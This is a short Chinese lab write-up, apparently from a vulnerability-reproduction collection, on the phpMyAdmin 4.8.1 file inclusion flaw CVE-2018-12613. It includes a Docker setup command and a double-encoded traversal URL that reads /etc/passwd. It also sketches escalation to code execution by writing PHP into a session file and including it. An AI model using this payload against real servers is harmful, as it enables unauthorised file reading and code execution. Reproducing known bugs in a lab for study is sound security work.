

phpmyadmin 4.8.1 远程文件包含漏洞（CVE-2018-12613）¶
phpMyAdmin是一套开源的、基于Web的MySQL数据库管理工具。其index.php中存在一处文件包含逻辑，通过二次编码即可绕过检查，造成远程文件包含漏洞。
参考文档：
漏洞环境¶
执行如下命令，启动phpmyadmin 4.8.1：
docker compose up -d
环境启动后，访问http://your-ip:8080，即可进入phpmyadmin。配置的是“config”模式，所以无需输入密码，直接登录test账户。
漏洞复现¶
访问http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd，可见/etc/passwd被读取，说明文件包含漏洞存在：

利用方式也比较简单，可以执行一下SELECT '<?=phpinfo()?>';，然后查看自己的sessionid（cookie中phpMyAdmin的值），然后包含session文件即可：